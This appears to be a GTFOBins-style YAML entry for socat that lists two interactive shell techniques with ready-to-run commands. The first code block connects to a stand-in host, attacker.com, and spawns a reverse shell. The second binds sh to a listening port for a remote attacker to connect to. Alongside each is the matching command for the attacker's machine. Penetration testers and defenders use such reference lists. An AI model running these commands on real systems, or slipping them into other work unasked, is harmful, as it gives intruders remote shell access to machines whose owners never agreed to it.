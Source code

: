 ```yaml
---
functions:
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  bind-shell-interactive:
    - description: Run <code>socat FILE:`tty`,raw,echo=0 TCP:target.com:12345</code> on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
---
```

